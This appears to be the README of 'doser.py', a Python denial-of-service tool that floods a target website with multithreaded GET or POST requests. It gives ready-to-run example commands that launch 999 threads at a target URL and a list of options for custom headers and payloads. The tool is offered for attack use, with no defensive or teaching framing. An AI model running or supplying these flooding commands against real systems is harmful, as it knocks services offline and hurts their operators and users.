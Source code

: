 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# TODO:
Rewrite to Xanax#EUW :)
